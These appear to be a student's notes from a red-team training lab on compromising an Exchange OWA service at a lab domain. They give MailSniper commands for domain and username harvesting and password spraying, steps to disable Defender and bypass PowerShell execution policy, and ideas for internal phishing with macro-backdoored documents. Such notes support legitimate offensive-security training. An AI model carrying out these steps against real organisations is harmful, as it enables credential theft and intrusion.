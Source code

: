 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo .\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```python ./namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022```


## Internal Phishing
With the credentials of a legit internal user, many doors open, e.g.:
* Emails that may contain sensitive information such as documents, usernames, and passwords
* Send internal emails on behalf of the user, containing specially crafted files/links, or even download a document already in an inbox, backdoor it (e.g. with a macro) and send it back to somebody

## Initial Access Payloads
Two options for delivering a payload that will execute on their system:

1. Send a URL from which a payload can download
2. Attach a payload to the phishing email

Files emailed "internally" from a compromised Exchange mailbox are not tagged with a Zone Identifier, and won't have the "mark of the web" and come under greater scrutiny.



